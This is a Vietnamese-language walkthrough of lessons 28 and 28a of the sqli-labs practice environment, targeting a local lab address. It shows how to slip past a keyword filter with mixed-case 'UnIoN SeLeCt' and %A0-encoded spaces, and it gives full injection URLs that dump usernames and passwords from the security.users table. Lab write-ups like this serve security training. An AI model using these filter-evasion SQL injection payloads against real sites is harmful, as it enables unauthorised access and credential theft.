 # Những việc làm được với lesson-28
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-28

![](../images/lesson28/screen_5.png)

Sau khi đăng nhập với bài 28 này thì ta thêm ký tự đặc biệt vào nhưng kết quả không có gì và cũng không báo lỗi xảy ra 

![](../images/lesson28/screen.png)

Khi ta đăng nhập vào thì ta thấy rằng nó có xuất ra dữ liệu của user và password. Vốn dĩ nó là một câu truy vấn. Thế nên ta sẽ đi tìm cách để của thể xuất dữ liệu bằng cách này và chắc chắn nó sẽ sử dụng `select` và `union` 

Lưu ý bởi vì tất cả ký tự `union` và `select` đều bị lấy mất tại url này. Nên ta sẽ viết ký tự thường xen lẫn với chữ hoa. Và khi thử bằng ký tự đặc biệt cũng tương tự. Nên ta phải encode nó lại. CÓ các website giúp ta làm những việc đó. ví dụ như 
```
https://www.urldecoder.org/
```
Ta có thể sử dụng để chuyển từ câu truy vấn thường sang tôi sẽ thử 2 lần một với url thường và một đã được encode 
```
192.168.80.225/sqli-labs/Less-28/?id=0')UnIoNSeLeCt(1),@@version,group_concat(password)fromsecurity.userswhere('1
```

![](../images/lesson28/screen_2.png)

Ta sẽ encode 

![](../images/lesson28/screen_1.png)

```
http://192.168.80.225/sqli-labs/Less-28/?id=0%27)%A0UnIoN%A0SeLeCt(1),@@version,group_concat(password)%A0from%A0security%2Eusers%A0where%A0%a0(%271
```

![](../images/lesson28/screen_3.png)

Đó ta đã có được cấu trúc của nó thì giờ ta chỉ thay vào bằng các câu lệnh mà ta đã làm từ những bài trước vào cấu trúc này thôi 

# Bài 28a 

![](../images/lesson28/screen_4.png)

Ở bài này ta nhìn cũng rất giống như bài 28 nhưng tôi đoán nó sẽ khác nhau một chút về Cấu trúc truy vấn của nó.

Ta tìm được câu truy vấn của nó 
```
192.168.80.225/sqli-labs/Less-28a/?id=0') UnIon%A0SeLect 1,version(),database()--+
```

![](../images/lesson28/screen_6.png)

Ta có thể  Truy vấn DB với các cấu trúc thay vào cấu trúc của bài này để truy vấn ra 

```
192.168.80.225/sqli-labs/Less-28a/?id=0')%a0UnIon%a0SeLect 1,group_concat(username),group_concat(password) from security.users where 1--+
```
![](../images/lesson28/screen_7.png)

### NOTE: Lưu ý rằng khi thử một cách bình thường không được ta hay encode URL thử xem nhé. Ở trong bài này những giấu space sẽ không hoạt động được như bình thường 





